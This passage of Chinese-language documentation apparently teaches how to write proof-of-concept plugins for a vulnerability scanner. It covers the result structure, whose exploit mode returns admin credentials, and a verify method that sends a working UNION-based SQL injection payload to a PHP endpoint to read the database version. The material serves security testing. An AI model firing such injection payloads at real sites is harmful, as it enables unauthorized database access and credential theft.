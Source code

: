 ```python
    self.register_result({
        "status": False,
        "data": {
            "user_info": {
                "username": "",
                "password": ""
            }
        },
        "description": "",
        "error": ""
    })
```

代码解释::

    line 1: 调用 register_result 方法注册POC返回结果
    line 2: POC 的成功失败状态, 必须
    line 3: POC 返回数据的存放处，必须名为 data, 而且data中的键都在 数据返回表 中已定义
    line 4: POC 的exploit模式将返回管理员用户名密码, 所以data下填写user_info
    line 5: POC 将返回 user_info 的 username
    line 6: POC 将返回 user_info 的 password
    ilne 9: POC 返回对人类可读性良好的信息, 最终会直接显示在漏洞报表中
    line 10: POC 执行失败或者异常的原因


定义verify方法
-------------------------
经过上面一些步骤, 我们已经填写好了 POC 的相关信息, 定义了输入和输出, 下面我们就来到了 POC 中一个极为重要的执行体 ``verify`` 方法。
``verify`` 顾名思义, 仅做验证目标网站是否存在漏洞, 不应存在恶意攻击行为, 不应该使用waf敏感的函数, 例如 mysql 中的 ``load_file`` 或 ``into outfile`` 等。
``verify`` 方法中只能使用 ``url`` 或者 ``host`` 和 ``port`` 做组合 两种类型作为输入参数。

```python
def verify(self):
    self.print_debug("verify start")

    re_version_pattern = re.compile(r'~~~(.+?)~~~', re.IGNORECASE | re.DOTALL | re.MULTILINE)
    cookies = {'cookie': 'admin'}
    exp_url = ("{domain}/php/bill/list_userinfo.php?domain=fatezero.org&ok=1&cp=1 union "
               "select concat(0x7e7e7e,@@version,0x7e7e7e),2,3,4,5%23".format(domain=self.option.url))

    try:
        response = requests.get(exp_url, cookies=cookies, timeout=15, verify=False)
    except Exception, e:
        self.result.error = str(e)
        return

    re_result = re_version_pattern.findall(response.content)
    if len(re_result) == 0:
        self.result.status = False
        return

    self.result.status = True
    self.result.data.db_info.version = re_result[0]
    self.result.description = "目标 {url} 存在sql注入, 目标使用数据库版本为: {db_version}".format(
        url=self.option.url,
        db_version=re_result[0]
    )
```
